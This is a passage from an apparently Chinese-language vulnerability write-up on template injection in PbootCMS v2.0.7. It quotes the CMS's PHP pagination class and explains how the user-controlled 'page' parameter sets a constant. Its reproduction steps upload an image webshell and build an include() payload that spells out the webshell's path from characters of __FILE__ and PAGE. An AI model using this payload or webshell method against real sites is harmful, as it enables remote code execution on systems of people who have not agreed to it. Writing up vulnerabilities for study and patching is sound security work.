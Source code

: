             // 获取当前页面
            $this->page = $this->page();

            // 定义相关常量，用于方便模板引擎解析序号等计算和调用
            define('ROWTOTAL', $this->rowTotal);
            define('PAGECOUNT', $this->pageCount);
            define('PAGE', $this->page);
            define('PAGESIZE', $this->pageSize);

            // 注入分页模板变量
            $this->assign($morePageStr);

            // 返回限制语句
            return ($this->page - 1) * $this->pageSize + ($this->start - 1) . ",$this->pageSize";
        } 
      // 当前页码容错处理
        private function page(){
            $page = get('page', 'int') ?: $this->page;
            if (is_numeric($page) && $page > 1) {
                if ($page > $this->pageCount && $this->pageCount) {
                    return $this->pageCount;
                } else {
                    return $page;
                }
            } else {
                return 1;
            }
        }
      ...
    ?>

这里是该程序的一个分页类，可以看到里面有一个叫`PAGE`的常量，且该常量可控。

那么就寻找调用了这个分页类的地方传入`page`就好。

例如：`http://www.0-sec.org/?keyword=123&page=0123456789`

![](resource/PbootCMSv2.0.7模板注入/media/rId31.png)

且该常量为string类型。

至此，路径中需要的字符都构造出来了，只需要用`.`连接即可。

### 漏洞复现

1.  上传图片马

![](resource/PbootCMSv2.0.7模板注入/media/rId33.png)

1.  得到路径`static/upload/image/20200417/1587111957160139.png`

2.  根据路径构造payload

-   `include(s.tatic.array(__FILE__)[0][0].upload.array(__FILE__)[0][0].image.array(__FILE__)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][0].array(PAGE)[0][4].array(PAGE)[0][1].array(PAGE)[0][7].(马赛克).png)`
